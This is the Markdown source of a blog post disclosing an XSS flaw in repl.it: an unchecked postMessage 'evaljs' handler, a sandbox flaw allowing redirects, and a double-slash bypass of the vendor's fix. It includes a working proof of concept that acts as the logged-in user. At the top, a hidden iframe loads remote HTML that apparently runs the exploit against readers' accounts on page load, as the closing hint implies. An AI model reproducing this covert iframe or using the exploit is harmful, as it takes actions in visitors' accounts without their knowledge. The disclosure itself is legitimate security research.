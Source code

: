 ```yaml
---
layout: post
title: Repl.it XSS
---
```


<iframe style="display:none" src="https://gistcdn.githack.com/kmh11/f02e5c33844ac5ac1f18ed3be0632fce/raw/631fc0ce170d09da8d54a23772c21bb99910714f/replit.html"></iframe>

I recently found a rather interesting, non-traditional XSS vulnerability in [repl.it](https://repl.it). I was inspired to try this after reading a [writeup](https://github.com/koczkatamas/gctf19/tree/master/pastetastic) for Pastetastic from Google CTF 2019, which showed off some really cool cross-origin stuff with iframes.

In case you're not familiar with repl.it, it's basically an online IDE with tons of features, including website hosting. Each program you make runs in its own environment called a "repl" (it's a lot more than just a read-eval-print loop).

While messing around with how different features worked, I discovered that repls for static sites (HTML, CSS, JS) were previewed in a few nested iframes. Specifically, the site preview consisted of an iframe of [https://replbox.repl.it/public/secure/](https://replbox.repl.it/public/secure/), which contained a blank iframe manipulated by its parent, which was modified to contain an iframe pointing to the URL where the static files are hosted:

```
https://replbox.repl.it/data/web_hosting_1/<username>/<repl_name>/
```

I'm actually going to take a little detour and look at something interesting with the sandboxing of that iframe: 

```javascript
sandbox="allow-forms allow-pointer-lock allow-popups allow-same-origin allow-scripts allow-modals"
```

If this was done correctly, it would prevent the iframe containing user content from messing with the top window's location since the `allow-top-navigation` option is not set. However, the `allow-same-origin` attribute means it is not sandboxed from accessing windows that are also on `replbox.repl.it`, and it just so happens the parent two levels up (the ironically named `/public/secure` page) is both on the same origin and not sandboxed. This means the location of the top window, `repl.it`, can be modified with something like:

```javascript
window.parent.parent.eval("top.location.href = 'https://kmh.zone'")
```

An arbitrary redirect isn't a particulary high severity vulnerability, but it obviously goes against the intent of the authors of the code, and shows that cross-origin frame stuff is very weird.

Now let's start looking at the actual XSS vulnerability. The `/public/secure` page imports a script, [runner.js](https://replbox.repl.it/public/secure/runner.js). After some variable renaming and refactoring, the important part of the code looks like this:

```javascript
var listeners = { load: s, evaljs: a, html: i };
var secret;
window.addEventListener("message", function(event) {
  var req = JSON.parse(event.data);
  if (req.secret) {
    if (secret || "handshake" !== req.type) {
      if (req.secret !== secret) return;
      if (!listeners[req.type])
      	throw Error("No listeners for event:" + req.type);
      listeners[req.type](req.data);
    } else secret = req.secret;
  }
})
```

There's a pretty glaring issue here &mdash; the message handler doesn't check the origin. This means we can stick this in an iframe in our own site and send any messages we want, including `evaljs` (which, per it's name, evaluates JavaScript).

So this gives us full code execution on `replbox.repl.it`. The thing is that this is kind of useless; there is a session cookie on that domain, but I couldn't see anything it authenticated for. I messed around for a while trying to find stuff like a path I could host a service worker on, but all the user controlled content was under directories based on username and repl name.

As I continued to mess around, I started to notice the similarities between the API on `repl.it` and `replbox.repl.it`: they both had `/data` routes, they both had `/public` routes, and the 404 pages were the same. Eventually I realized that if I set my session cookie to be the same on `replbox.repl.it` as `repl.it`, I could access the authenticated API routes. Then I had an idea &mdash; what if there was `/public/secure/` on `repl.it`? And lo and behold, there it was! I had arbitrary JavaScript execution on the main domain. I quickly wrote up a proof of concept that created a repl as the currently signed in user:

```html
<iframe style="position:absolute;left:-100000px;" id="repl" src="https://repl.it/public/secure"></iframe>
<script>
function createRepl(){
  var xhr = new XMLHttpRequest();
  xhr.open("POST", 'https://repl.it/data/repls/new');
  xhr.setRequestHeader("Content-Type", "application/json");
  xhr.send(JSON.stringify({language: "python3", title: "kmh was here " + Math.floor(Math.random()*1000000), folderId: "", isPrivate: false, description: ""}));
}
setTimeout(function() {
  repl.contentWindow.postMessage(JSON.stringify({secret: "asdf", type: "handshake"}), "*");
    setTimeout(function() {
      repl.contentWindow.postMessage(JSON.stringify({secret: "asdf", type: "load"}), "*")
        setTimeout(function() {
          repl.contentWindow.postMessage(JSON.stringify({secret: "asdf", type: "evaljs", data: createRepl.toString()+";createRepl()"}), "*")
        }, 200)
    }, 200);
}, 200);
</script>
```
I contacted the repl.it team on Discord, and after waiting a bit, I got a reply and it was forwarded over to the engineering team. Now, according to their [security page](https://repl.it/site/docs/misc/security), they "work with you to fix the issue and then we will credit you on our blog." After the initial report, they gave me a year-long free "hacker" plan, and I didn't hear from them again.

I noticed a bit later that they pushed a "fix" to the issue by redirecting from

```
https://repl.it/public/secure/
```

to

```
https://replbox.repl.it/public/secure/
``` 

However, in my toolkit of random things that sometimes work, I had a trick that was the intended solution for a problem I wrote for [ångstromCTF 2019](https://kmh.zone/blog/2019/04/24/angstromctf-2019.html#dom-validator): there are often inconsistencies in how having multiple slashes in a URL is handled. Some web servers collapse them, some don't.

In this case, it seems like however they are matching the redirect does not collapse multiple slashes, but the way they are serving the files does. This means that you can go to [https://repl.it/public//secure/](https://repl.it/public//secure/) and still get full code execution on the `repl.it` domain. Since they never contacted me to verify whether it was fixed, I had no way or reason to let them know. Oh well.

PS: If you're currently logged in to repl.it, check out your [repls](https://repl.it/repls) ;)
